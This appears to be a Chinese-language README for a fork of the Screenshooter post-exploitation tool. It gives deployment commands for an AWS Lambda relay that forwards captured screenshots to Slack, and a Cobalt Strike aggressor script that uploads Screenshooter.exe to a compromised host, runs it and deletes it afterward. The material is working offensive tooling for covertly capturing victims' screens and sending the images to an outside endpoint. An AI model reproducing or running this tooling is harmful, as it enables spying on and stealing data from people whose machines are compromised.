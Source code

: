 
## 源代码 : [https://github.com/FortyNorthSecurity/Screenshooter](https://github.com/FortyNorthSecurity/Screenshooter)
## 功能
截图之后上传到slack可以直接查看：

![](screen.gif)

## 新增上传图片函数（网上抄的）
上传截图到AWS的lambda，然后转发给slack的机器人，这样截图之后可以直接在slack里面看得到。
### ~~部署lambda(截屏文件2M左右lambda函数会出错，建议部署自己服务器或者cloudfront之类的)~~
首先修改`lambda/app.py`文件,替换自己的slack的token和channel，然后部署到AWS：
```
cd lambda
virtualenv venv -p python3
. venv/bin/activate
pip install Flask
pip freeze > requirements.txt
sls plugin install -n serverless-wsgi
sls plugin install -n serverless-python-requirements

本地测试: sls wsgi serve
远程部署: sls deploy
查看日志: sls logs -f app
```
部署之后，会有一个endpoints，上传接口是: `https://xxxx.execute-api.ap-northeast-1.amazonaws.com/dev/upload`
![](lambda.png)

替换上传[接口](https://github.com/JKme/Screenshooter/blob/master/Screenshooter/Program.cs#L203)之后编译即可使用。

PS: 直接修改源代码上传到slack也是可以的

### CNA
```
 item "screenshots" {
            $bid = $1;
            $dialog = dialog("Upload Screenshots", %(UploadPath => "C:\\Windows\\Temp\\", bid => $bid), &screenshots);
            drow_text($dialog, "UploadPath",  "path: ");
            dbutton_action($dialog, "ok");
            dialog_show($dialog);
        }

        sub screenshots {
            # switch to specify path
            bcd($bid, $3['UploadPath']);
            bsleep($bid, 0 ,0);
            $bin = $3['UploadPath'];
            bupload($bid, script_resource("/script/Screenshooter.exe"));
            bshell($bid, "$bin $+ Screenshooter.exe")
            bshell($bid, "del $bin $+ Screenshooter.exe")
            # show_message("Executing cmmand!");
        }
```
